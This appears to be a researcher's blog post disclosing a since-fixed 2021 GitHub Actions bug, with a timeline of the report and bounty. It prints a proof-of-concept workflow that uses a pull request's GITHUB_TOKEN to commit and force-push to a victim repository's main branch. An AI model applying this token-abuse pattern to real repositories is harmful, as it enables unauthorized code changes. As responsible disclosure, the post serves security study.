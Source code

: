 ```yaml
---
title: "Gain write permission of repositories with a bug in GitHub Actions"
date: 2021-04-02T22:28:00+09:00
---
```


# Gain write permission of repositories with a bug in GitHub Actions

GitHub Actions is a useful feature for the jobs, for example, building, publishing.

I found a bug which allows unauthorized users to edit the main branch of the repositories in GitHub.
(Repositories which enables GitHub Actions are affected and fortunately, the bug exists between 2021/02/04 18:42 UTC and 2021/02/05 13:35 UTC.)

---

Recently, I saw the case that some users abused the GitHub Actions for the DDoS.

[GitHub Actionsを使ったDDoSに巻き込まれた - 私が歌川です](https://blog.utgw.net/entry/2021/02/05/133642)

They forked many repositories, added a workflow file which runs some malicious program on pull request event, and created pull requests, so that their programs run in target repositories.
I'm not sure if that is correct but I guess they sent those pull requests to bypass [the resource limits on GitHub Actions](https://docs.github.com/en/actions/reference/usage-limits-billing-and-administration).
If the resource is shared for the pull request jobs, how about the `GITHUB_TOKEN`?

The `GITHUB_TOKEN` allows the workflow to commit a code, create packages, and so on.
Therefore, if the `GITHUB_TOKEN` for the target repository is shared for the jobs triggered by pull request, we gain write permission of the respository without authorization!
So I tested.

---

The test was simple. Just send a pull request and wait.

1. Victim prepares a repository which has random workflow file in `.github/workflows`. (Make sure the attacker has no permission to commit the repository.)

2. Attacker forks the repository and replace the workflow file to the following one. This workflows edit main branch after pull request event.

```
on: [pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: Create local changes and commit
        run: |
          echo test > newfile
          git add newfile
          git config --local user.email "namatyage@gmail.com"
          git config --local user.name "tyage"
          git commit -m "Add changes" -a
          git remote set-url origin https://x-access-token:${{ secrets.GITHUB_TOKEN }}@github.com/${GITHUB_REPOSITORY}
          git push --force origin HEAD:refs/heads/main
```

3. Attacker sends a pull request to the parent repository and waits for a while.

Surprisingly, the test was succeeded.
After the workflow finishes, victim repository has been modified!

(Send pull request to `tyage-test/repo-with-workflow`)
![](screenshot1.png)

(`tyage-test/repo-with-workflow` was polluted)
![](screenshot2.png)

I reported the bug to GitHub, and they fixed the bug quickly :)

--- 

Another short story:

Interestingly, a one day before I found the bug, another people had found a similar bug.

[Stealing arbitrary GitHub Actions secrets | Teddy Katz’s Blog](https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html)

Though this is a independent bug, the bug also exists in GitHub Actions and is triggered by crafted pull request.

---

## Timeline

- **2021/02/04 18:42 UTC** The bug was born
- **2021/02/05 12:09 UTC** I reported this issue to GitHub Bug Bounty Program
- **2021/02/05 13:35 UTC** The bug was dead
- **2021/02/05 17:58 UTC** I received a message that the issues was fixed
- **2021/03/31 13:14 UTC** GitHub awarded a $25,000 bounty